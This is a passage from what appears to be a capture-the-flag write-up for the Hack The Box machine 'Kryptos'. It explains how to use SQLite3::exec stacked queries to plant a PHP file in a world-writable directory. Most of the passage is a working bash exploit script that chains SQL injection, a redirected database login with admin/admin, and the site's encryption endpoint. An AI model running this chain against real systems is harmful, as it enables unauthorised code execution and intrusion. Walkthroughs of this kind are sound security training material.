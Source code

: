 There's the secret location that's world-writable and also two types of SQLite3 SQL query execution, [SQLite3::exec](https://www.php.net/manual/en/sqlite3.exec.php) and [SQLite3::query](https://www.php.net/manual/en/sqlite3.query.php) :wink:

We can make use of SQLite3::exec to write a PHP file at the world-writable directory, bearing in mind the creator might have already disabled all useful PHP functions in gaining a shell.

I should probably re-purpose my `holycow.sh` script to `write.sh` to write PHP file to the secret location and another one `read.sh` to read files off the secret location. `write.sh` takes in two arguments: filename and the PHP code. `read.sh` takes in one argument: filename from `write.sh`.

<div class="filename"><span>write.sh</span></div>

```bash
#!/bin/bash

IP=$(ifconfig | grep -A1 tun0 | sed '2!d' | awk '{ print $2 }')
COOKIE=$(mktemp -u)
HOST=10.10.10.129
HOSTNAME=kryptos
FILE=$1
NAME="${FILE%.*}"
DOCROOT=/var/www/html
SECRET=dev/d9e28afcf0b274a5e0542abb67db0784
PHPCODE=$2
QUERY="; ATTACH DATABASE '$DOCROOT/$SECRET/$FILE' as $NAME; CREATE TABLE $NAME.$NAME (data TEXT); INSERT INTO $NAME.$NAME (data) VALUES ('$PHPCODE');--"
QUERY=$(urlencode "$QUERY")
SQLITE="http://$HOSTNAME/dev/sqlite_test_page.php?no_results&bookid=1$QUERY"
SQLITE=$(urlencode "$SQLITE")
CIPHER="encrypt.php?cipher=RC4&url=$SQLITE"

TOKEN=$(curl -c $COOKIE \
             -s \
             http://$HOST \
        | grep token \
        | cut -d'"' -f6)

# login
curl -b $COOKIE \
     -s \
     -o /dev/null \
     -d "username=admin" \
     -d "password=admin" \
     -d "db=cryptor%3Bhost%3D$IP" \
     -d "token=$TOKEN" \
     -d "login=" \
     "http://$HOST/index.php"

# encrypt
RC4=$(curl -b $COOKIE \
           -s \
           "http://$HOST/$CIPHER" \
      | sed -r '/<textarea/,/<\/textarea>/!d' \
      | head -1 \
      | cut -d'>' -f2 \
      | cut -d'<' -f1)

# decrypt
python xor.py "$RC4"

# clean up
rm -f $COOKIE
```
